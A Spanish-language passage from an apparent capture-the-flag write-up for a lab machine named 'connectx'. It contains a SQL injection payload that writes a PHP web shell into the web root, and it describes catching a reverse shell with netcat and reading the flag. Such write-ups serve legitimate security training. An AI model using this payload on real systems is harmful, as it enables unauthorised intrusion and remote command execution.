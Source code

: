```bash
username=admin'+union+select+'<?php+system($_GET[0]);+?>'+into+outfile+'/var/www/connectx.bbl/cmd.php'--+-
```

Veremos que hemos conseguido tener ejecución remota de comandos (**RCE**), por lo que en este punto nos pondremos en escucha con **NetCat** (`nc -nlvp 443`) y nos enviaremos una **Reverse Shell**.

![](<../assets/images/posts/2025-03-18-connectx/Pasted image 20250216182142.png>)

Veremos que recibimos la **Reverse Shell**, lo que nos permitirá ganar acceso a la máquina víctima.

![](<../assets/images/posts/2025-03-18-connectx/Pasted image 20250216182343.png>)

Finalmente, leeremos el contenido del `flag.txt` para poder completar el formulario.

![](<../assets/images/posts/2025-03-18-connectx/Pasted image 20250216182453.png>)